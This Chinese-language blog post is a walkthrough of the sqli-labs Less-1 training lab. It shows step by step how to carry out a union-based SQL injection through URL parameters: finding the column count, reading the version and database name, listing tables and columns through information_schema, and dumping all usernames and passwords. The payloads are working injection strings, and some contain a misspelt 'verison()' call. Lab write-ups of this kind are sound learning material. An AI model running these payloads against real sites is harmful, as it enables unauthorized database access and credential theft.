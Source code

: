 ```yaml
---
title: sql-labs Less-1
date: 2017-9-21
tags: [sqli-labs]
---
```


#### sql 字符
字符串运算符
```sql
 'or
 ```
多行注释
<!-- more -->
```sql
/*...*/

```
加号，连接（在URL中等同于空格）
```sql
+
```
单行注释
```sql
#
```
或
```sql
--
```

#### sql injection
![Alt text](http://image-1252432001.file.myqcloud.com/sqli1.png)

输入id值为```1'```来破坏查询。

```sql
http://localhost/sqli-labs/Less-1/?id=1'
```
得到下列结果

![Alt text](http://image-1252432001.file.myqcloud.com/sqli2.png)
可以猜测后端应该是

```sql
SELECT * from table_name WHERE id='1';
```
or
```sql
SELECT * from table_name WHERE id=('1');
```

or

```sql
SELECT * from table_name WHERE id="1";
```

来猜一下:

```sql
http://localhost/sqli-labs/Less-1/?id=1\
```

利用转义字符来验证猜测

![Alttext](http://image-1252432001.file.myqcloud.com/sqli3.png)

结果中有```''1\'```,那么后端的查询应该是

```sql
SELECT * from table_name WHERE id='1';
```

那么如果输入```1'```完整的查询应该是

```sql
SELECT * from table_name WHERE id='1'';
```

所以这条查询有错误。

那么怎么不让它报错呢？

利用sql字符构建

```sql
http://localhost/sqli-labs/Less-1/?id=1'--+
```

得到下图

![Alttext](http://image-1252432001.file.myqcloud.com/sqli4.png)

其实这里的```--+```相当于注释，加号连接（在URL中等同于空格）```+```，

后端语句为

```sql
SELECT * from table_name WHERE id='1'--+';
```

等效于

```sql
SELECT * from table_name WHERE id='1';
```

所以登录成功。


----------


**现在我们既可以破坏查询，又可以修复它的语法错误了，接下来我们要努力在引号和 --+ 之间添加查询来获取数据库中的信息。**

为了使用```union```**（UNION操作符用于合并两个或多个SELECT语句的结果集。但是有一个前提条件，那就是UNION操作符两边的列数必须相同）**,我需要知道表的列数。

使用```order by```，来获取列数。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=1' order by 1 --+
```

显示正确

![Alttext](http://image-1252432001.file.myqcloud.com/sqli5.png)

当构建

```sql
http://localhost/sqli-labs/Less-1/?id=1' order by 4 --+
```

出现了下图

![Alttext](http://image-1252432001.file.myqcloud.com/sqli6.png)

可以猜到这个表有3列，然后就可以使用```union```了。


----------

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=1' union select 1,2,3 --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli7.png)

显示正常

为了将第二个查询的结果显示出来，需要将第一条查询变成空，可以将```id```的值设为负值或者大于14.

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli8.png)


图示显示``` name: 2 ```, ``` password: 3 ```，可以构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,verison（） --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli9.png)

显示版本号。

下面开始爆出数据库名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,database(),verison（） --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli10.png)

得到数据库名为```security```.

接下来可以利用 information_schema这个数据库，爆出表名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema = 'security' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli11.png)

利用```group_concat()``` 来查取所有的表名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli12.png)

爆出全部表名。

接下来爆出```users```表的列名，也是利用information_schema这个数据库。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli13.png)

那么可以得到users表中的所以登录名和密码

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from users --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli14.png)

**这么就把库给脱了！**
